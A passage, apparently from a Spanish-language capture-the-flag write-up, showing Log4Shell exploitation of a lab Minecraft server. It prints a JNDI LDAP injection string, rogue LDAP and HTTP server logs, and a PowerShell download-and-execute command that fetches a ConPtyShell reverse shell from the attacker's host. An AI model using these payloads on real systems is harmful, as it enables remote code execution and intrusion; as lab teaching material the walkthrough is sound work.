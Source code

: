 Nos da el puerto del servidor LDAP y unos mappings para ejecutar clases de Java especificas, usaremos `artsploit.controllers.RemoteReference`, y al enviar `${jndi:ldap://10.10.14.92:1389/o=reference}` en el servidor de Minecraft vemos en las consolas que:

```bash
... [snip]
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
Sending LDAP reference result for http://10.10.14.92:8000/xExportObject.class
new http request from /10.10.11.249:49698 asking for /xExportObject.class
```

```bash
# tshark -i tun0 icmp
    1 0.000000000 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=1/256, ttl=127
    2 0.000069813  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=1/256, ttl=64 (request in 1)
    3 1.019781479 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=2/512, ttl=127
    4 1.019871252  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=2/512, ttl=64 (request in 3)
    5 2.042625454 10.10.11.249 → 10.10.14.92  ICMP 60 Echo (ping) request  id=0x0001, seq=3/768, ttl=127
    6 2.042666787  10.10.14.92 → 10.10.11.249 ICMP 60 Echo (ping) reply    id=0x0001, seq=3/768, ttl=64 (request in 5)
```

Efectivamente, podemos ejecutar comandos. Ahora podemos enviarnos una consola

```bash
❯ java -jar RJNDI.jar -c "powershell IEX((New-Object Net.WebClient).DownloadString('http://10.10.14.92:8000/uwu'))" -n 10.10.14.92
```

> El archivo `uwu` contenia una copia de la ConPtyShell de AntonioCoco
{: .prompt-info }

```bash
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.10.11.249 - - [17/Jun/2024 10:58:49] "GET /uwu HTTP/1.1" 200 -
10.10.11.249 - - [17/Jun/2024 10:58:51] "GET /uwu HTTP/1.1" 200 -
10.10.11.249 - - [17/Jun/2024 10:58:52] "GET /uwu HTTP/1.1" 200 -
```

Con la terminal que recibimos de la máquina, ya podemos hacer cosas:

```bat
PS C:\users\svc_minecraft\server> ls 


    Directory: C:\users\svc_minecraft\server


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/17/2024   3:01 AM                logs
d-----       10/27/2023   2:48 PM                plugins
d-----        6/17/2024   7:58 AM                world
-a----       11/14/2023  10:00 PM              2 banned-ips.json
-a----       11/14/2023  10:00 PM              2 banned-players.json
-a----       10/24/2023   1:48 PM            183 eula.txt
-a----       11/14/2023  11:22 PM              2 ops.json
-a----       10/24/2023   1:43 PM       37962360 server.jar
-a----       11/14/2023  10:00 PM           1130 server.properties
-a----        6/17/2024   7:56 AM            102 usercache.json
-a----       10/24/2023   1:51 PM              2 whitelist.json
```